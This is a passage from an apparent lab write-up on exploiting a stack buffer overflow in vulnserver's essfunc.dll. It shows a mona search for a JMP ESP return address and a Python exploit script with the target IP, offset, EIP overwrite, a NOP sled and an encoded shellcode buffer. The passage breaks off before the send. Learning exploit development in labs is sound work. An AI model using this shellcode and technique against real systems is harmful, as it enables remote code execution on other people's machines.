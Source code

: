 You can see there is dll without protection, so now we run the search for jump ESP by insert the nasm values related to that dll.
```
!mona find -s "\xff\xe4" -m "essfunc.dll"
```

![bo-059.png](/assets/images/bo-059.png)
**Figure 59** Search the return address.

So, in my case the return address should be "625011AF", so now I cam up with the following python script to test that.

```py        
#!/usr/bin/python3

import socket

target_ip = "192.168.126.28"
target_port = 9999

# Offset at 2003, EIP at 4 bytes after that (2007)
offset = 2003
eip = b"\xaf\x11\x50\x62"
#eip = b"\x42\x42\x42\x42"

slad = b"\x90" * 16

# Generate all possible byte values
buf =  b""
buf += b"\xdb\xd3\xbd\xa1\xce\x46\x71\xd9\x74\x24\xf4\x5a"
buf += b"\x29\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x4b"
buf += b"\x32\xa4\x84\x77\x23\xab\x67\x87\xb4\xcc\xee\x62"
buf += b"\x85\xcc\x95\xe7\xb6\xfc\xde\xa5\x3a\x76\xb2\x5d"
buf += b"\xc8\xfa\x1b\x52\x79\xb0\x7d\x5d\x7a\xe9\xbe\xfc"
buf += b"\xf8\xf0\x92\xde\xc1\x3a\xe7\x1f\x05\x26\x0a\x4d"
buf += b"\xde\x2c\xb9\x61\x6b\x78\x02\x0a\x27\x6c\x02\xef"
buf += b"\xf0\x8f\x23\xbe\x8b\xc9\xe3\x41\x5f\x62\xaa\x59"
buf += b"\xbc\x4f\x64\xd2\x76\x3b\x77\x32\x47\xc4\xd4\x7b"
buf += b"\x67\x37\x24\xbc\x40\xa8\x53\xb4\xb2\x55\x64\x03"
buf += b"\xc8\x81\xe1\x97\x6a\x41\x51\x73\x8a\x86\x04\xf0"
buf += b"\x80\x63\x42\x5e\x85\x72\x87\xd5\xb1\xff\x26\x39"
buf += b"\x30\xbb\x0c\x9d\x18\x1f\x2c\x84\xc4\xce\x51\xd6"
buf += b"\xa6\xaf\xf7\x9d\x4b\xbb\x85\xfc\x03\x08\xa4\xfe"
buf += b"\xd3\x06\xbf\x8d\xe1\x89\x6b\x19\x4a\x41\xb2\xde"
buf += b"\xad\x78\x02\x70\x50\x83\x73\x59\x97\xd7\x23\xf1"
buf += b"\x3e\x58\xa8\x01\xbe\x8d\x7f\x51\x10\x7e\xc0\x01"
buf += b"\xd0\x2e\xa8\x4b\xdf\x11\xc8\x74\x35\x3a\x63\x8f"
buf += b"\xde\x85\xdc\xf1\x3e\x6e\x1f\x0d\x3e\xd5\x96\xeb"
buf += b"\x2a\x39\xff\xa4\xc2\xa0\x5a\x3e\x72\x2c\x71\x3b"
buf += b"\xb4\xa6\x76\xbc\x7b\x4f\xf2\xae\xec\xbf\x49\x8c"
buf += b"\xbb\xc0\x67\xb8\x20\x52\xec\x38\x2e\x4f\xbb\x6f"
buf += b"\x67\xa1\xb2\xe5\x95\x98\x6c\x1b\x64\x7c\x56\x9f"
buf += b"\xb3\xbd\x59\x1e\x31\xf9\x7d\x30\x8f\x02\x3a\x64"
buf += b"\x5f\x55\x94\xd2\x19\x0f\x56\x8c\xf3\xfc\x30\x58"
buf += b"\x85\xce\x82\x1e\x8a\x1a\x75\xfe\x3b\xf3\xc0\x01"
```